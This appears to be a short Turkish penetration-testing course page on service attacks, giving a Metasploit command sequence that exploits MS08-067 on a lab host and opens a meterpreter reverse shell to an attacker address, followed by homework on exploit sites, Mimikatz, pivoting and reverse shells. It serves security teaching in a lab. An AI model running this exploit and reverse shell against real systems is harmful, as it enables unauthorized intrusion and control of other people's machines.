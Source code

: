 # Servis Saldırıları

## Komutlar

```
msfconsole
db_rebuild_cache
search ms08
use exploit/windows/smb/ms08_067_netapi
show options
set rhost 10.0.3.6
set payload windows/meterpreter/reverse_tcp
set lhost 10.0.3.5
exploit
ls
pwd
getuid
screenshot
```

## Ödevler

- Exploit-db, 0day.today benzeri siteleri araştırınız ve düzenli olarak takip ediniz.
- Açıklıkların paylaşıldığı diğer plaformları araştırınız.
- Nessus veya openvas aracını çalıştırınız ve lab makineleri üzerinde test ediniz.
- Mimikatz aracını araştırınız.
- Metasploit komutlarını inceleyiniz. Pivot işleminin nasıl yapıldığını araştırınız.
- Metasploit aracı dışında exploit sitelerinden seçtiğiniz bir exploiti indirip çalıştırınız.
- Reverse ile bind shell almanın farklarını öğreniniz.
- Sunucudan shell almanın farklı yollarını araştırınız.
- Linux sunuculardan alınabilecek reverse shell yollarını araştırınız.
